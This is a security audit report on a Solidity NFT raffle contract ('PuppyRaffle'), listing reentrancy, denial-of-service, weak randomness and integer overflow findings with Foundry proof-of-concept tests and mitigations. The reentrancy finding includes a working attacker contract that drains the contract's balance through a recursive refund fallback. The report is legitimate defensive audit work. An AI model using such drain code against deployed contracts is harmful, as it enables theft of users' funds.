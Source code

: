 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh;
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./../krisconnectlogo.webp" alt="Logo">
    <div>
    <h1>Protocol Audit Report</h1>
    <h3>Prepared by: krisconnect</h3>
    </div>
</div>

</body>
</html>

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
- [High](#high)
- [Medium](#medium)
- [Low](#low)
- [Informational](#informational)
- [Gas](#gas)

# Protocol Summary

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

Call the enterRaffle function with the following parameters:
address[] participants: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
Duplicate addresses are not allowed
Users are allowed to get a refund of their ticket & value if they call the refund function
Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
The owner of the protocol will set a feeAddress to take a cut of the value, and the rest of the funds will be sent to the winner of the puppy.

# Disclaimer

The krisconnect team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| *Likelihood* | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 
## Scope 
- Commit Hash: e30d199697bbc822b646d76533b66b7d529b8ef5
- ./src/ \
└── PuppyRaffle.sol
## Roles
# Executive Summary
## Issues found
# Findings
### [S-H] Reentrency attack in the "refund" function

**Description:** \
The implemented "refund" function that is supposed to allow players to get a refund does not follow the [CEI](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) (Checks, Effects, Interactions) guidelines and therefore it is vulnerable to reentrency.

**Impact:** \
A malicious actor can drain the funds in the contract stealing the stored currency of all the players.

**Proof of Concept:** \
Include the following test and attacker contract into the "puppyRaffleTest.t.sol": \

<details>

```javascript
function testReentrance() public playersEntered {
        ReentrancyAttacker attacker = new ReentrancyAttacker(address(puppyRaffle));
        vm.deal(address(attacker), 1e18);
        uint256 startingAttackerBalance = address(attacker).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        console.log("The starting attacker balance is {}", startingAttackerBalance);
        console.log("The starting contract balance is {}", startingContractBalance);

        attacker.attack();

        uint256 endingAttackerBalance = address(attacker).balance;
        uint256 endingContractBalance = address(puppyRaffle).balance;
        assertEq(endingAttackerBalance, startingAttackerBalance + startingContractBalance);
        assertEq(endingContractBalance, 0);
        console.log("The ending attacker balance is {}", endingAttackerBalance);
        console.log("The ending contract balance is {}", endingContractBalance);
    }

    contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    fallback() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}

```
</details>

**Recommended Mitigation:** 
1. Follow the CEI recommendations and make sure the Effect happens before the Interaction. One way of doing this would be to move line 103 above line 101 in the code.
2. Use the [Reentrency Guard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard)

### [S-M] Denial of Service (DoS) vulnerability in iteration logic implementation

**Description:** \
The ```Enter Raffle``` function is implemented with double "for" loops but without any limitation as to how many users can enter the raffle. This combined with entry fee increasing with each consecutive player can lead to a case where after the nth player the gas fee will be extremely high.\
**Impact:** \
A malicious actor can create hundreds or thousands of users and enter with each of them in an automated manner, increasing the gas price each time, denying the service for others.\
**Proof of Concept:**\
Add the code snippet below to the "puppyRaffleTest.t.sol" file and run the tests.

<details>

```javascript
function testDoS() public {
    
        vm.txGasPrice(1);
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for(uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }

        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();

        uint256 gasUsedFirst = gasStart - gasEnd * tx.gasprice;
        console.log("Gas used by the first 100 players {}", gasUsedFirst);

        address[] memory playersTwo = new address[](playersNum);
        for(uint256 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i+playersNum);
        }

        uint256 gasStartTwo = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersTwo.length}(playersTwo);
        uint256 gasEndTwo = gasleft();

        uint256 gasUsedSecond = gasStartTwo - gasEndTwo * tx.gasprice;
        console.log("Gas used by the second 100 players {}", gasUsedSecond);
    }
```
</details>

**Recommended Mitigation:** \
1. Consider removing the check for duplicates. Regardless of implementation, the check wouldn't be able to verify the identity of the wallet owner and because creating a wallet is a zero cost process, anyone can create any number of wallets.
2. If that is not an option, a mapping could be created that maps the addresses of the players to a uint256 value to something like an "ID", then the check is done iterating through the array of these integers, requireing the mapped IDs to be unique. This way the protocol would only select from new players when the selectWinner() function is called (also incrementing the ID after each call).
3. Alternatively use [OpenZeppelin's Enumerable Set](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet)

### [S-M] Weak randomness

**Description:** \
The protol uses a random number generation method that has been proven to be exploitable in the functions ```selectWinner```.

**Impact:** \
A malicious actor can influence their chances of getting more valueable NFTs based on rarity.

**Proof of Concept:** \
According to the [slither documentation](https://github.com/crytic/slither/wiki/Detector-Documentation#weak-prng), find the example below:

<details>

```javascript
contract Game {

    uint reward_determining_number;

    function guessing() external{
      reward_determining_number = uint256(block.blockhash(10000)) % 10;
    }
}
```

</details>

**Recommended Mitigation:** 
Use [chainlink VRF](https://docs.chain.link/vrf) or [Commit Reveal Scheme](https://www.gate.io/learn/articles/what-is-a-commit-reveal-scheme-in-blockchain/862).

### [S-M] Integer overflow and unsafe wrapping in ```TotalFees```

**Description:** \
Within the winner selector function on line 134, the totalFees variable can hold integer values without issues if the number of players is relatively low. Once the number of players increases, the stored value increments above what the buffer is capable of holding and switches back to zero. Additionally, the uint64 cannot hold larger values.

**Impact:** \
Getting the fees wrong can severly impact the protocol's internal account mechanisms and can provide incorrect data for calculations.

**Proof of Concept:** \
Add the code snippet below to the "puppyRaffleTest.t.sol" file and run the tests.

<details>

```javascript
    function testIntegerOverflow() public playersEntered {
        
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        console.log("Starting total fee is {}", startingTotalFees);

        
        uint256 playersNum = 89;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        

        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        
        uint256 endingTotalFees = puppyRaffle.totalFees();
        console.log("Eventhough 89 players have entered the total ending fee is {}", endingTotalFees);
        assert(endingTotalFees < startingTotalFees);

        // We are also unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```

The unsafe wrapping can be confirmed using chisel:
1. Find out the maximum value a uint256 can hold.
2. Find out what is the value of 20 ether.
3. Cast the value of 20 ether into a uint64.
4. The value shows around 1 ether instead of the expected 20 ether.
The wrapping issue occurs at 20 ether:

![20 ether on uint64](image.png)


</details>

**Recommended Mitigation:** \
Use newer version of solidity. Version > 0.8.0.

# Informational

# Gas

### [S-L] Function is not used anywhere in the contract

**Description:** The function ```_isActivePlayer()``` is declared as a function but it is not used anywhere else in the code base.

**Impact:** The unused function still takes computational power and hence increases the gas cost of the protocol

**Proof of Concept:** N/a.

**Recommended Mitigation:** Delete the function or implement it.